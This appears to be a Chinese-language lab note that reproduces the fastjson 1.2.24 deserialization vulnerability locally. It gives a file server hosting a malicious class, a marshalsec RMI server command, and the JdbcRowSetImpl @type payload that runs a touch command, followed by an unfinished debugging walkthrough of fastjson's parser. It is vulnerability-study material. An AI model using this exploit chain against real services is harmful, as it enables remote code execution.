 # fastjson 1.2.24 反序列化漏洞

## JNDI + RMI

### 启动文件服务器
```bash
python -m http.server 1111
```
该目录下有恶意类。

### 启动 RMI 服务
```bash
/usr/lib/jvm/jdk1.8.0_65/bin/java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://localhost:1111/#TouchFile" 2222
```

### 执行 payload
```bash
String s = "{\"@type\": \"com.sun.rowset.JdbcRowSetImpl\", \"dataSourceName\": \"rmi://localhost:2222/TouchFile\", \"autoCommit\": true}";
JSONObject jsonObject = JSON.parseObject(s);
```

本地访问 2222 端口的 RMI 服务，RMI 请求 1111 端口的文件。

该文件是个 class，里面带有 `touch /tmp/success` 的命令执行。



## 调试记录

对于带有 `@type` filed 的字段，fastjson 会默认是一个 java class 做类解析和加载。

因此会调用 getter 和 setter 进行赋值。

1. 入口点。
```java
String s = "{\"@type\": \"fastjsonTest.Person\", \"name\": \"Alice\", \"age\": \"18\"}";
JSONObject jsonObject = JSON.parseObject(s);
```

跟进
- JSON.parseObject(s)
- parse(text)
- parse(text, DEFAULT_PARSER_FEATURE)

2. 进入一个静态函数 `parse`
构造一个解析器
```java
DefaultJSONParser parser = new DefaultJSONParser(text, ParserConfig.getGlobalInstance(), features);
Object value = parser.parse();
```
进入解析器
```java
public Object parse() {
        return parse(null);
}
```
调用另一个 `parse`
这个 parse 带一个入参。

3. 开始解析
```java
switch (lexer.token()){
        ...
        case LBRACE:
            JSONObject object = new JSONObject(lexer.isEnabled(Feature.OrderedField));
            return parseObject(object, fieldName);
        ...
}
```

解析到这个字符串是左大括号 `{` 开头，认为是一个对象。

4. 进入 `parseObject`
检测到是 `"` 开头，认为是一个 field。

获得当前字符串，并解析为 key。

并且下一个字符必须是 `:`。

```java
 if (ch == '"') {
    key = lexer.scanSymbol(symbolTable, '"');
    lexer.skipWhitespace();
    ch = lexer.getCurrent();
    if (ch != ':') {
        throw new JSONException("expect ':' at " + lexer.pos() + ", name " + key);
    }
}
```

```java
ch = lexer.getCurrent();
```
获得下一个位置的字符（`“`）。

在 `JSON.java` 中有定义：
```java
public static String           DEFAULT_TYPE_KEY     = "@type";
```

因此，会通过 `if` 判断。

```java
if (key == JSON.DEFAULT_TYPE_KEY && !lexer.isEnabled(Feature.DisableSpecialKeyDetect))
```

接下来获得用 `"` 包裹的类名，也就是 `fastjsonTest.Person`。
```java
String typeName = lexer.scanSymbol(symbolTable, '"');
```

预判下一个字符是 `,`。
```java
lexer.nextToken(JSONToken.COMMA);
```

如果当前 object 不为空，就生成类并返回。
```java
if (object.size() > 0) {
    Object newObj = TypeUtils.cast(object, clazz, this.config);
    this.parseObject(newObj);
    return newObj;
}
```
可惜当前只解析了 `@type`，因此不满足约束。

进入反序列化 `deserializer`。
```java
return deserializer.deserialze(this, clazz, fieldName);
```

再套一层
```java
return deserialze(parser, type, fieldName, 0);
```

再下面我 debug 不动了。





